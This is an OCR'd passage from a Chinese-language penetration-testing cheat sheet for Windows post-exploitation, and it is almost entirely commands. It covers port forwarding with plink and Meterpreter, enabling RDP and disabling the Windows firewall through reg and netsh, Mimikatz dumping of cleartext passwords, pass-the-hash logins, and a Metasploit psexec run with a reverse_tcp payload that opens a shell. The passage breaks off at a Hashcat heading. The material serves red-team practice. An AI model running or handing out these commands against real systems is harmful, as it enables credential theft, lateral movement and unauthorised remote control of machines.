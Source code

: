 转发远程端口到目标地址
plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP
Meterpreter 端口转发

# https://www.offensive-security.com/metasploit-unleashed/portfwd/
# 转发远程端口到目标地址
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
开启 RDP 服务

reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
关闭 Windows 防火墙

netsh firewall set opmode disable
Meterpreter VNC\RDP

# https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
run getgui -u admin -p 1234
run vnc -p 5043
使用 Mimikatz

获取 Windows 明文用户名密码

git clone https://github.com/gentilkiwi/mimikatz.git
privilege::debug
sekurlsa::logonPasswords full
获取哈希值

git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash //IP cmd

或者

apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

在或者

meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
使用 Hashcat 破解密码
